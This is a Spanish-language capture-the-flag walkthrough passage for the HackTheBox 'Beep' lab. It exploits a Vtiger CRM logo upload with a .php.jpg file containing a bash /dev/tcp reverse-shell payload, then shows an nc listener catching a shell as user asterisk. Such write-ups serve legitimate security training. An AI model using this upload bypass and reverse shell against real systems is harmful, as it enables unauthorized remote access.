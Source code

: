 Y también para el panel de autenticación de Vtiger.

![vtiger-index](/assets/htb/beep/vtiger-index.png)

En este caso estaré explotando el CRM Vtiger.

En *SETTINGS* -> *Settings* -> *Company Details* se puede cambiar el logo de la compañía.

La web dice que solo te permite subir imágenes con extensión .jpg, por lo que intentaré subir una archivo con extensión .php.jpg que me entable una reverse shell a mi máquina local.

```php
<?php
    system('bash -i >& /dev/tcp/10.10.16.3/443 0>&1')
?>
```

En primer lugar, me pondré en escucha con *nc*.

```
root@kali:/# nc -vnlp 443
listening on [any] 443 ...
```

Después de subir el archivo, la máquina me envió una conexión.

```
root@kali:/# nc -vnlp 443
listening on [any] 443 ...
connect to [10.10.16.3] from (UNKNOWN) [10.10.10.7] 51160
bash: no job control in this shell
bash-3.2$ whoami
asterisk
bash-3.2$ id
uid=100(asterisk) gid=101(asterisk) groups=101(asterisk)
bash-3.2$ 
```

Soy el usuario **asterisk**.
